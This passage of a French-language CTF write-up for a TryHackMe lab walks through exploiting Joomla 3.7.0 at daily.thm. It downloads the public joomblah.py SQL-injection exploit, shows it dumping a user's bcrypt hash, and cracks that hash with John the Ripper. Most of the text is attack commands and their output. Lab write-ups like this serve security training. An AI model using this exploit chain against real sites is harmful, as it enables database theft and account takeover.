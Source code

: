 On voit la version de joomla est la 3.7.0 

**What is Jonah's cracked password**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py -nv
2021-11-18 11:12:21 URL:https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py [6024/6024] -> "joomblah.py" [1]
```

En cherchant sur internet on voit que joola est exploitable avec joomblah.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python2 joomblah.py http://daily.thm
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

On trouve le hash de jonah.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' >  hash

tim@kali:~/Bureau/tryhackme/write-up$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:04:01 DONE (2021-11-18 11:20) 0.004149g/s 194.3p/s 194.3c/s 194.3C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
